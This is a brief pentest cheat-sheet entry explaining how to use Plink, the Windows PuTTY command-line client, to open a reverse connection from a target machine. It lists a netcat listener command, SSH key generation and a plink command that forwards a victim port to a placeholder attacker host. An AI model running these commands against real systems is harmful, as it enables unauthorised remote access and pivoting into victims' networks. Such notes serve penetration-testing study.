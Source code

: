 Plink is a Windows command line version of the PuTTY SSH client.

Reverse Connection
1. Open Lisnter in Your Local Machine
nc -lvnp 4444
Copied!
2. Run Reverse Connection in Target Machine
First of all, generate SSH keys. Two keys (public and private) will be generated.

ssh-keygen
Copied!
Convert the private key for Windows.

puttygen private_key -o private_key.ppk
Copied!
Run reverse connection using plink.

cmd.exe /c echo y | .\plink.exe -R <attack-port>:<victim-ip>:<victim-port> attacker@<attack-ip> -i private_key.ppk -N
